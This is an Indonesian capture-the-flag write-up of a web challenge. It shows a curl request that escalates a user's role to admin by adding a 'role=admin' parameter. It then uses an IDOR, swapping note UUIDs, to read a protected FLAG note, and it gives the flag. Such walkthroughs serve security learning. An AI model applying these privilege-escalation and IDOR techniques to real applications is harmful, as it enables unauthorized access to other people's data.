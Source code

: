 ![response-body](https://gcdnb.pbrd.co/images/pxWe9T88tU9I.png?o=1)

Kemudian saya mencoba mengubah `role` yang kita miliki menjadi admin dengan menambahkan parameter `role` dengan nilai `admin`. 
Untuk melakukan ini, saya menggunakan curl:

```
curl 'http://178.128.113.198:1234/setting/update-profile' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: session=eyJ1aWQiOjEyMH0.ZYFdNw.yQeaVm4tVecNn0Yjx90atJW--4c' \
  -H 'Origin: http://178.128.113.198:1234' \
  -H 'Referer: http://178.128.113.198:1234/setting' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: XMLHttpRequest' \
  --data-raw 'name=rill&gender=female&role=admin' \
  --compressed \
  --insecure
```

Setelah profil berhasil diupdate, kita dapat melihat daftar _notes_ pada menu Notes.

![notes-after-admin](https://gcdnb.pbrd.co/images/QIKhZDMJw2ot.png?o=1)

Terdapat sebuah notes dengan judul FLAG yang diproteksi dengan sebuah password.

Notes di atas ditulis oleh author dari challenge ini, yaitu aimardcr. 
Karena notes tersebut ditulis oleh author challenge ini saya berasumsi bahwa terdapat informasi berupa _hints_ yang dapat kita gunakan untuk mendapatkan flag.

Pada notes dengan judul `TODO`, kita dapat melihat isi notes tersebut yang menurut saya adalah _hints_ berisi _vulnerabilities_ pada challenge ini:

![notes-todo](https://gcdnb.pbrd.co/images/lECJS7FUl38F.png?o=1) 

Dengan hint berupa IDOR yang disebutkan dalam notes tersebut, kita dapat mengganti UUID notes lain dengan UUID notes FLAG. 
Untuk mengetahui UUID notes FLAG, kita dapat menggunakan Inspect Element untuk melihat UUID-nya:

![inspect-flag-uuid](https://gcdnb.pbrd.co/images/zctg1hcRXiXI.png?o=1)

Saya mengganti UUID notes TODO dengan UUID notes FLAG:
- TODO Notes: `http://178.128.113.198:1234/notes/bb06631b-9b72-424a-b8ec-fb815eb24a75`
- FLAG Notes: `http://178.128.113.198:1234/notes/a6faca0d-7e51-4b02-834f-c7b11370056f`

Akhirnya, kita mendapatkan flag.

![final-flag](https://i.ibb.co/mqVKFvJ/image.png)

**STS23{Bl4ckb0x_Ch4ll_F0r_An0th3r_D4y}**

